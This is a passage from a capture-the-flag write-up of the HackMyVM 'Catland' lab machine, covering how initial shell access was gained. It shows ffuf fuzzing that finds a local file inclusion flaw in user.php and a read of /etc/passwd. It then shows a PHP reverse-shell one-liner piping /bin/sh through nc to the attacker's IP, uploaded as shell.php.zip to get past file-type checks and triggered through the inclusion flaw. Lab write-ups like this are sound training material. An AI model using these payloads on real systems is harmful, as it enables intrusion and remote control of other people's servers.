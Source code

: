 ### 4. Gaining Initial Shell (www-data)

I logged into `admin.catland.hmv` with the found credentials. After logging in, I noticed a file upload functionality and a `user.php` page. I used `ffuf` to check for Local File Inclusion (LFI) on `user.php`.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/catland/cupp]
└─$ ffuf -u 'http://admin.catland.hmv/user.php?FUZZ=/etc/passwd' -H 'Cookie: PHPSESSID=4cvn213l10ihv3iic9nduphk2a; auth=1' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -fs 695
# ... (truncated output) ...
page                    [Status: 200, Size: 2225, Words: 113, Lines: 59, Duration: 2ms]
# ... (truncated output) ...
```

This confirmed that `user.php` was vulnerable to LFI via the `page` parameter. I verified this by directly requesting `/etc/passwd`:

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/catland/cupp]
└─$ curl 'http://admin.catland.hmv/user.php?page=/etc/passwd' -H 'Cookie: PHPSESSID=4cvn213l10ihv3iic9nduphk2a; auth=1'
# ... (truncated HTML output) ...
root:x:0:0:root:/root:/bin/bash
# ... (content of /etc/passwd) ...
laura:x:1001:1001:,,,:/home/laura:/bin/bash
# ... (truncated output) ...
```

The LFI vulnerability allowed me to read arbitrary files. I then uploaded a PHP reverse shell (named `shell.php.zip` to bypass potential file type restrictions) to the `/uploads` directory. I modified the IP and port in the shell to my Kali machine's IP (`192.168.1.5`) and port (`4444`).

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/catland/cupp]
└─$ echo "<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.5 4444 >/tmp/f'); ?>" > shell.php.zip
```

I set up a `netcat` listener on my Kali machine:

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/catland/cupp]
└─$ nc -lvnp 4444
```

Then, I triggered the reverse shell by accessing the uploaded file via the LFI vulnerability:

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/catland/cupp]
└─$ curl 'http://admin.catland.hmv/user.php?page=uploads/shell.php.zip' -H 'Cookie: PHPSESSID=4cvn213l10ihv3iic9nduphk2a; auth=1'
```

This resulted in a connection on my `netcat` listener:

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/catland/cupp]
└─$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 192.168.1.10 48402
Linux catland.hmv 5.10.0-20-amd64 #1 SMP Debian 5.10.158-2 (2022-12-13) x86_64
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
